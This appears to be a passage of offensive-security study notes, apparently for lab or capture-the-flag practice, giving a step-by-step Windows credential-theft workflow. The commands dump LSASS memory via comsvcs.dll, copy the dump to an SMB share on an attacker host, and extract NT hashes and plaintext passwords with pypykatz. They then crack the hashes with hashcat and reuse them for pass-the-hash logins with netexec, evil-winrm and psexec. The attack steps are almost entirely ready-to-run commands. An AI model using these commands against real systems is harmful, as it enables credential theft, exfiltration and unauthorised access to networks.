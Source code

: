 #### Command-line Method Workflow

#### 1. Enumerate Running Processes
```cmd
# Find LSASS PID
tasklist /svc | findstr lsass
Get-Process lsass
```

#### 2. Create Memory Dump
```cmd
# Choose method based on environment
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

#### 3. Transfer Dump File
```bash
# Start SMB server
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share /tmp/

# Transfer from target
move C:\lsass.dmp \\attacker-ip\share\
```

#### 4. Extract Credentials
```bash
# Use pypykatz
pypykatz lsa minidump lsass.dmp > credentials.txt

# Parse output
grep "NT:" credentials.txt | cut -d: -f2 > nt_hashes.txt
grep "password:" credentials.txt | grep -v "None" > plaintext_passwords.txt
```

#### 5. Crack or Use Hashes
```bash
# Crack NT hashes
hashcat -m 1000 nt_hashes.txt /usr/share/wordlists/rockyou.txt

# Or use for Pass-the-Hash
netexec smb targets.txt -u username -H nt_hash
```

## Advanced Techniques

### Pass-the-Hash
```bash
# Use NT hash directly (no cracking needed)
netexec smb 10.129.42.198 -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0

# Evil-WinRM with hash
evil-winrm -i 10.129.42.198 -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0

# Impacket psexec with hash
python3 psexec.py administrator@10.129.42.198 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
```
